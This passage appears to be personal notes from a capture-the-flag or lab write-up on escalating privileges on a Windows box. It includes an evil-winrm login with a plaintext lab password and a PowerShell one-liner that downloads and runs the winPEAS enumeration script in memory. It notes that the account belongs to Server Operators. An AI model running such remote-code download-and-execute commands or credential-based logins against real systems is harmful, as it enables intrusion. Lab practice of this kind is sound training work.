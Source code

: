 
Still no Root flag means we have to escalate our access now.
```
evil-winrm -u 'jorden' -p 'rainforest786' -i 10.10.10.179    
```

![[Pasted image 20241002184740.png]]


![[Pasted image 20241002185019.png]]


![[Pasted image 20241002185539.png]]

So what really stand out here is that it is a member of server operators.

Let's see how to run winpeas or privs check

SO we have to run powershell winpeas and it works (i.e. i wasted my time trying to run x86 and 64 and any)
```
powershell "IEX(New-Object Net.WebClient).downloadString('https://raw.githubusercontent.com/peass-ng/PEASS-ng/master/winPEAS/winPEASps1/winPEAS.ps1')"
```

As we can see that we have access to sc
![[Pasted image 20241008072610.png]]


```

```